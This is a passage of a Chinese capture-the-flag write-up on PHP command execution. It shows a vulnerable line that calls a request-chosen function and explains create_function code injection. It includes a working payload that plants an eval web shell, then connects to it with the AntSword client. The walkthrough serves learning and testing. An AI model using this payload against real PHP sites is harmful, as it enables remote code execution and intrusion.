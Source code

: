 查看源码发现提示：

![image-20211127001343528](image/命令执行/image-20211127001343528.png)

```php
$_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']);
```

可以动态的执行php代码，此刻应该联想到create_function代码注入：

```php
create_function(string $args,string $code)
//string $args 声明的函数变量部分
//string $code 执行的方法代码部分
```

我们令`fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*`即可注入恶意代码并执行。

payload：

```php
/?fighter=create_function&fights=&invincibly=;}eval($_POST[cmd]);/*
```

使用蚁剑成功连接，但是无法访问其他目录也无法执行命令：

![image-20211127001456676](image/命令执行/image-20211127001456676.png)

